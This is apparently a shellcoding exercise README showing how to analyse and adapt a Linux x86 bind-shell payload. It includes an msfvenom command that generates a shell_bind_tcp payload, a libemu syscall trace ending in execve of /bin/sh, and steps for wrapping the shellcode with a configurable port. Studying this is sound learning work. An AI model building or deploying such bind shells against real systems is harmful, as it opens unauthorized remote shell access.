 # Exercise 1

## Usage

```
python3 wrapper.py $PORT
```

![Screenshot](images/wrapper/5.png)

If the port causes problems, a warning message appears:
![Screenshot](images/wrapper/6.png)




## Steps

Get "sctest" result (also using *libemu.sh* script in **scripts/** folder):
```
msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888 | ./sctest -vvv -Ss 10000 -G bindshell.dot

-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888" bindshell | tee libemu_res/libemu_res.txt
```

Get hexadecimal values for every syscall (also using *syscallhex.sh* script in **scripts/** folder):
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363

-------------------------------------

sh syscallhex.sh listen
```

Result:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000010 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
) =  11;
int dup2 (
     int oldfd = 19;
     int newfd = 10;
) =  10;
int dup2 (
     int oldfd = 19;
     int newfd = 9;
) =  9;
int dup2 (
     int oldfd = 19;
     int newfd = 8;
) =  8;
int dup2 (
     int oldfd = 19;
     int newfd = 7;
) =  7;
int dup2 (
     int oldfd = 19;
     int newfd = 6;
) =  6;
int dup2 (
     int oldfd = 19;
     int newfd = 5;
) =  5;
int dup2 (
     int oldfd = 19;
     int newfd = 4;
) =  4;
int dup2 (
     int oldfd = 19;
     int newfd = 3;
) =  3;
int dup2 (
     int oldfd = 19;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 19;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 19;
     int newfd = 0;
) =  0;
int execve (
     const char * dateiname = 0x00416fb2 => 
           = "/bin//sh";
     const char * argv[] = [
           = 0x00416faa => 
               = 0x00416fb2 => 
                   = "/bin//sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```


## Deleting NOPs

[socket] generates NOPs:

![Screenshot](images/1.png)

It is possible to solve it using the stack:

![Screenshot](images/2.png)

[accept_res] generates NOPs:

![Screenshot](images/3.png)

It is possible to solve it using the stack:

![Screenshot](images/4.png)

There is not NOPs anymore:

![Screenshot](images/5.png)



## Creating Python wrapper 

Get the shellcode:

![Screenshot](images/wrapper/1.png)

Change the "\\" to "\\\\":

![Screenshot](images/wrapper/2.png)

Detect where the port (8888 or 0x22b8 in hexadecimal) is being used:

![Screenshot](images/wrapper/3.png)

Substitute that value in the original shellcode for a variable:

![Screenshot](images/wrapper/4.png)


## Useful links
```
http://man7.org/linux/man-pages/man2/socket.2.html
https://stackoverflow.com/questions/19850082/using-nasm-and-tcp-sockets
http://man7.org/linux/man-pages/man2/socket.2.html
https://rosettacode.org/wiki/Sockets
http://www6.uniovi.es/cscene/CS5/CS5-05.html
https://stackoverflow.com/questions/48773917/why-creating-a-remote-shell-using-execve-doesnt-overwrite-file-descriptors-and
```
